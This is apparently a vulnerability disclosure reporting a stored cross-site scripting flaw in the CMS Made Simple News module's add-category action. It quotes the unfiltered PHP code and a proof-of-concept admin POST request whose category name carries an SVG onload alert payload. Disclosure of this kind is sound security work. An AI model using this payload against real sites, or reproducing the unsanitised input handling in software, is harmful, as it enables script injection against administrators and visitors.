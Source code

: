 One day I felt like reviewing the source code of some random CMS and I picked CMSMS. This is totally random and I did this to kill boredom.

Stored XSS

In Setting-New module,you can add category,there is no XSS filtering, resulting in storage-type XSS generation. 
file modules/New/action.addcategory.php,line10~line29.  
    ```` 
    $name = trim($params['name']);
       //if( $parent == 0 ) $parent = -1;
    $name = trim($params['name']);
    if ($name != '') {
		echo $name;
        $query = 'SELECT news_category_id FROM '.CMS_DB_PREFIX.'module_news_categories WHERE parent_id = ? AND news_category_name = ?';
        $tmp = $db->GetOne($query,array($parent,$name));
        if( $tmp ) {
            echo $this->ShowErrors($this->Lang('error_duplicatename'));
        }
        else {
            $query = 'SELECT max(item_order) FROM '.CMS_DB_PREFIX.'module_news_categories WHERE parent_id = ?';
            $item_order = (int)$db->GetOne($query,array($parent));
            $item_order++;

            $catid = $db->GenID(CMS_DB_PREFIX."module_news_categories_seq");

            $query = 'INSERT INTO '.CMS_DB_PREFIX.'module_news_categories (news_category_id, news_category_name, parent_id, item_order, create_date, modified_date) VALUES (?,?,?,?,NOW(),NOW())';
            $parms = array($catid,$name,$parent,$item_order);
            $db->Execute($query, $parms);

    ````  
The parameter name insert into the database without filtering。

## POC  
    ````
    POST /admin/moduleinterface.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 143
    Referer: http://127.0.0.1/
    Cookie: CMSICb6b86d162b=t5qthj5ve9r557omvs3j9slkm4; CMSSESSID4df2b2a65ee6=5osblhhflr07cfmp1730ffn3n0; _sk_=98cf4d97037a4df557b; bef694b94d14a6e115ebafd2d6cd1380=LGb1BagmBwZ6VaIcMPV7nGbkB3Z6BQbvqKAypz5uoJHvB3Z6AGbvLJEgnJ4vB3Z6AGbvL2gmqJ0vB3Z6AQN6Vwp1MzLkZJD3BQAyZzD4MQt3AGIyATH4MzL1BJRlLwMzZJWyLGVjMQHvB3Z6AmbvMJMzK3IcMPV7GwgmBwRlBvWyMzMsqKAypz5uoJHvB047sD%3D%3D
    Connection: close
    Upgrade-Insecure-Requests: 1
    mact=News%2Cm1_%2Caddcategory%2C0&_sk_=98cf4d97037a4df557b&m1_name=%3Csvg%2F+onload%3Dalert%281%29%3E&m1_parent=-1&m1_submit=%E6%8F%90%E4%BA%A4
    
    ````
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/94376829.jpg)
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/48134010.jpg)
    
    
